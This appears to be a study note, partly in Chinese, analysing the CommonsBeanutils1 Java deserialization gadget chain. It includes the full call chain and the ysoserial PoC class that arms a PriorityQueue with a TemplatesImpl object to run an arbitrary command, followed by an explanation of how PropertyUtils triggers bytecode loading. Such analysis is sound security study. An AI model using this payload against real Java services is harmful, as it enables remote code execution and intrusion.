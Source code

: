 # CommonsBeanutils1

## Gadget Chain&Require

```
Gadget Chain:
    java.util.PriorityQueue#readObject
    java.util.PriorityQueue#heapify
    java.util.PriorityQueue#siftDown
    java.util.PriorityQueue#siftDownComparable
        org.apache.commons.beanutils.BeanComparator#compare
        org.apache.commons.beanutils.PropertyUtils#getProperty
            com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getOutputProperties
            com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#newTransformer
            com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#getTransletInstance
            com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#defineTransletClasses
            com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.TransletClassLoader#defineClass
            
Require:
	Apache Commons BeanUtils  1.9.2
```

## poc

```java
public class CommonsBeanutils1 implements ObjectPayload<Object> {

	public Object getObject(final String command) throws Exception {
		final Object templates = Gadgets.createTemplatesImpl(command);
		// mock method name until armed
		final BeanComparator comparator = new BeanComparator("lowestSetBit");

		// create queue with numbers and basic comparator
		final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
		// stub data for replacement later
		queue.add(new BigInteger("1"));
		queue.add(new BigInteger("1"));

		// switch method called by comparator
		Reflections.setFieldValue(comparator, "property", "outputProperties");

		// switch contents of queue
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = templates;

		return queue;
	}
```



BeanComparator的compare方法。


跟进

![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406195846-9lyuczv.png)


org.apache.commons.beanutils.PropertyUtils是Apache Commons Beanutils中用来对javaBean进行操作的工具类。

示例：

```java
public static void main(String[] args) {
        // 创建新实例
        Car car = new Car();
        // 设置属性
        car.setName("凯迪拉克");
        try {
            // 通过工具类来获取实例中的属性值
            String name = (String) PropertyUtils.getProperty(car, "name");
            System.out.println(name);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        }
    }
//这里实际上调用了getName方法
```


![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406220031-n6ra9be.png)

因为`PropertyUtils.getProperty`方法的作用，所以这里实际上调用的是`getOutputProperties()`方法


![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406220110-vkgd83i.png)

这个方法中就调用了newTransformer方法，实现恶意字节码的加载。
